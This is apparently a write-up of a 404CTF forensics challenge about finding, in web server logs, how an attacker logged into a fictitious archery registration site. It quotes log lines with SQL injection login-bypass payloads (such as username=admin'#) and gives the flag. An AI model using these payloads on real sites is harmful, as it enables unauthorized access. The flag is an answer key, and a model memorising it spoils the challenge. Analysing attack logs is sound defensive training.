```yaml
---
layout: Post
format: chall
title: Le tir aux logs
date: 2024-04-20
ctf: 404CTF
tags: [Logs]
category: [Forensics]
---
```

# Le tir aux logs ⚪

<a class="back-link" href="../../">< Go back</a>

## Description

Il semblerait qu'une personne malveillante ait réussi à se connecter sur le site d'inscription d'une compétition de tir à l'arc.
Aidez-nous à investiguer sur cette attaque via le fichier de logs de notre serveur. Quel est l'URL complète qui a permis de se connecter de manière frauduleuse ?

Le flag attendu est l'URL utilisée par l'attaquant pour exploiter une vulnérabilité du site avec succès, entouré du format habituel.
Par exemple, si l'attaquant se rend sur la page <https://example.com?authenticated=1> pour se connecter de manière frauduleuse, le flag sera 404CTF{<https://example.com?authenticated=1}>.
Par ailleurs, toutes les IP utilisées sont fictives et non pertinentes.

all files in [resources/](./resources) were provided.

## Challenge

Successful SQL injection:

```
146.70.147.101 - - [19/Feb/2024:19:28:44 -0500] "GET /index.php?username=admin%27%23&password=test HTTP/1.1" 302 784 "http://www.inscription_tir_arc.com/index.php?username=admin%22+AND+password+LIKE+%27a%25%27%23&password=test" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0"
146.70.147.101 - - [19/Feb/2024:19:28:44 -0500] "GET /admin.php HTTP/1.1" 200 318 "http://www.inscription_tir_arc.com/index.php?username=admin%22+AND+password+LIKE+%27a%25%27%23&password=test" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0"
```

The user got access to the admin page via the `302` redirection from the SQLi attack.

I first tried the flag with the Referer URL but that doesn't work the correct flag is the GET URI + the base URL.

Flag: `404CTF{http://www.inscription_tir_arc.com/index.php?username=admin%27%23&password=test}`
